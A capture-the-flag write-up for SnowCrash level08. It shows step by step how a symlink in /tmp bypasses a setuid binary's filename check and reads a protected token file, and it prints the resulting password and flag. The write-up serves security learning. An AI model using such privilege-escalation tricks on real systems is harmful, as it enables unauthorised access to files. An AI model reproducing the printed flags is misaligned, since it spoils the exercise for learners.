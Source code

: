 ### Exploit

This time around, we've got a binary file and text file, which contains a flag.

```
    level08@SnowCrash:~$ ls -l
    total 16
    -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
    -rw-------  1 flag08 flag08    26 Mar  5  2016 token
    level08@SnowCrash:~$ ./level08
    ./level08 [file to read]
    level08@SnowCrash:~$ ./level08 token
    You may not access 'token'
```
We haven't got any permission on `token` as user `level08`. However, the binary file will print out the content of any file we own.

```
    level08@SnowCrash:~$ echo "test">/tmp/test
    level08@SnowCrash:~$ ls -l /tmp/test
    -rw-rw-r-- 1 level08 level08 6 Jan 13 17:20 /tmp/test
    level08@SnowCrash:~$ ./level08 /tmp/test
    test
```
This means the script opens, reads and writes the content of any file, even though it pertains to user `level08`. Obviously, we can't modify the permission rights of `token` with `chmod`, so we need to find a way around this constraint. This can be achieved using symbolic links and absolute paths.

```
  level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/key
  level08@SnowCrash:~$ cat /tmp/key
    cat: /tmp/key: Permission denied
  level08@SnowCrash:~$ ls -la /tmp/key
  lrwxrwxrwx 1 level08 level08 24 Dec 10 16:48 /tmp/key -> /home/user/level08/token
  level08@SnowCrash:~$ ./level08 /tmp/key
  quif5eloekouj29ke0vouxean
  level08@SnowCrash:~$ su flag08
  Password:
  Don't forget to launch getflag !
  flag08@SnowCrash:~$ getflag
  Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
This trick turns out to be very useful for the next couple of levels...
